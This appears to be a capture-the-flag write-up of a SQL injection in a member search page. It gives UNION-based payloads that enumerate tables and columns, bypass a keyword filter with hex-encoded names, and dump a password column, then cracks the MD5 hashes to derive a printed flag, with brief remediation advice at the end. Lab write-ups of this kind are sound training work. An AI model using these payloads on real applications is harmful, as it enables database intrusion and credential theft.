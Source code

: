 
# SQL Injection in search for member

how i found the flag:




## Usage/Examples

```sql
1_ first get the table name :
SQL_injection Membre search :
-- 5 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = DATABASE() --

2_ then get all its column :
-- 5 union all select 5,(column_name) from Information_schema.columns where table_name=0x7573657273
* Some web applications have basic input filters that look for specific SQL keywords or patterns, such as table names, to prevent SQL injectionm in order to byPass this check we convert table name to hexaDecimal

3_ now we read every table till we got something useful in my case i found it in comments table 
-- 5 union all select 5,(Commentaire) from users  //no hexa here cause MySql consider this command normal not a threat

4_ after reading all comments we found the last comment saying : "Decrypt this password -> then lower all the char. Sh256 on it and it's good !", we need a password to decrypt it, if you readall table columns you`ll noticed that the countersign has some increpted values
-- 5 union all select 5,(countersign) from users

5_ decrypt all the encrypted value with md5

6_ one of them will give you : FortyTwo lower itto fortytwo and encrypt it with Sh256 and you will get the FLAG.
FLAG: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## sources :
* https://chatgpt.com/share/b318a774-8c2d-48f4-b026-4f8fb941c635
* https://md5decrypt.net/en/
* https://emn178.github.io/online-tools/sha256.html

## to resolve the patch:

1_ use an ORM (object relational mapping tool) as it check the query befor it send it to server
2_ filter user input